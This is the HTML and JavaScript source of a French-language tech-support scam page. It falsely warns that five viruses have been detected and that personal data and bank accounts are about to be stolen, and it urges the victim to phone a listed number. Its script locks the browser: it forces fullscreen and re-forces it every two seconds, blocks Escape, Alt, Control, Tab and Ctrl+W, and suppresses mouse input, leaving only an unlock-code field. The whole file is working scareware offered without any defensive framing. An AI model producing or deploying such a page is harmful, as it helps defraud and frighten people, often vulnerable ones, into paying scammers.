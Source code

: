 <!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Alerte Système</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
            user-select: none;
            cursor: none; /* Désactive totalement le pointeur */
        }
        html, body {
            width: 100vw;
            height: 100vh;
            background: black;
            color: white;
            font-family: 'Courier New', Courier, monospace;
            text-align: center;
            overflow: hidden;
            display: flex;
            justify-content: center;
            align-items: center;
        }
        .container {
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            width: 100%;
            height: 100%;
            padding: 5%;
        }
        .message {
            font-size: 3vw; /* Taille de police réduite */
            font-weight: bold;
        }
        .alert-number {
            font-size: 2.5vw; /* Taille de police réduite */
            font-weight: bold;
            color: red;
        }
        #codeInput {
            margin-top: 20px;
            padding: 10px; /* Taille de police réduite */
            font-size: 2vw; /* Taille de police réduite */
            text-align: center;
            border: 2px solid white; /* Taille de bordure réduite */
            width: 50%;
            background: black;
            color: white;
            outline: none;
        }
        #error-message {
            color: red;
            font-size: 1.5vw; /* Taille de police réduite */
            margin-top: 10px;
            animation: shake 0.5s;
            animation-iteration-count: 1;
        }
        @keyframes shake {
            0% { transform: translateX(0); }
            25% { transform: translateX(-5px); }
            50% { transform: translateX(5px); }
            75% { transform: translateX(-5px); }
            100% { transform: translateX(0); }
        }
        .glitch {
            position: relative;
            color: white;
            font-size: 2vw; /* Taille de police réduite */
            animation: glitch 1s infinite;
        }
        @keyframes glitch {
            0% {
                text-shadow: 2px 2px red, -2px -2px blue;
            }
            25% {
                text-shadow: -2px 2px red, 2px -2px blue;
            }
            50% {
                text-shadow: 2px -2px red, -2px 2px blue;
            }
            75% {
                text-shadow: -2px -2px red, 2px 2px blue;
            }
            100% {
                text-shadow: 2px 2px red, -2px -2px blue;
            }
        }
    </style>
</head>
<body>
    <div class="container">
        <p class="message"> 🚨 ATTENTION ! 🚨
5 VIRUS DÉTECTÉS SUR VOTRE APPAREIL !
🛑 Votre système est compromis ! 🛑
🔴 Ne fermez PAS cette page ! 🔴
🔴 Ne redémarrez PAS votre appareil ! 🔴
📛 Votre appareil est exposé à une attaque sérieuse ! 📛
Toutes vos données personnelles (photos, mots de passe, comptes bancaires) risquent d’être volées à tout moment.   <br>Appelez immédiatement :</p>
        <p class="alert-number">+44 741 30 52 610</p>
        <p style="font-size: 2vw;">Entrez le code de déverrouillage :</p> <!-- Taille de police réduite -->
        <input type="password" id="codeInput" placeholder="Code secret">
        <p id="error-message" class="glitch"></p>
    </div>
    <audio id="keypress-sound">
        <source src="https://www.soundjay.com/button/beep-07.wav" type="audio/wav">
    </audio>
    <audio id="error-sound">
        <source src="https://www.soundjay.com/button/beep-10.wav" type="audio/wav">
    </audio>
    <script>
        function openFullscreen() {
            let elem = document.documentElement;
            if (elem.requestFullscreen) {
                elem.requestFullscreen();
            } else if (elem.mozRequestFullScreen) {
                elem.mozRequestFullScreen();
            } else if (elem.webkitRequestFullscreen) {
                elem.webkitRequestFullscreen();
            } else if (elem.msRequestFullscreen) {
                elem.msRequestFullscreen();
            }
        }
        openFullscreen();

        // Bloquer tous les raccourcis clavier
        document.addEventListener("keydown", function(event) {
            let blockedKeys = ["Escape", "Tab", "F11", "F4", "Alt", "Control", "Meta"];
            if (blockedKeys.includes(event.key) || (event.ctrlKey && event.key === "w")) {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver totalement la touche Échap
        window.addEventListener("keydown", function(event) {
            if (event.key === "Escape") {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver complètement la souris
        window.addEventListener("mousemove", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mousedown", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mouseup", function(event) {
            event.preventDefault();
        });
        window.addEventListener("contextmenu", function(event) {
            event.preventDefault();
        });
        window.addEventListener("wheel", function(event) {
            event.preventDefault();
        });

        // Empêcher la sortie du plein écran
        document.addEventListener("fullscreenchange", function() {
            if (!document.fullscreenElement) {
                openFullscreen();
            }
        });

        // Ajouter un son à chaque touche pressée
        let inputField = document.getElementById("codeInput");
        let errorMessage = document.getElementById("error-message");
        let sound = document.getElementById("keypress-sound");
        let errorSound = document.getElementById("error-sound");

        inputField.addEventListener("keydown", function(event) {
            if (!["Enter", "Backspace"].includes(event.key)) {
                sound.play();
            }
        });

        // Vérifier le code
        inputField.addEventListener("keyup", function(event) {
            if (event.key === "Enter") {
                if (this.value === "1234") {
                    document.body.innerHTML = "<h1 style='color: white; text-align: center; margin-top: 20%; font-size: 3vw;'>  Système restauré</h1>"; /* Taille de police réduite */
                } else {
                    errorMessage.innerText = "Code incorrect !";
                    errorMessage.classList.remove("glitch");
                    void errorMessage.offsetWidth; // Reset animation
                    errorMessage.classList.add("glitch");
                    errorSound.play();
                    this.value = "";
                }
            }
        });

        // Focus automatique sur le champ
        window.onload = function() {
            inputField.focus();
        };

        // Reforcer le plein écran toutes les 2 secondes
        setInterval(openFullscreen, 2000);
    </script>
</body>
</html>
 
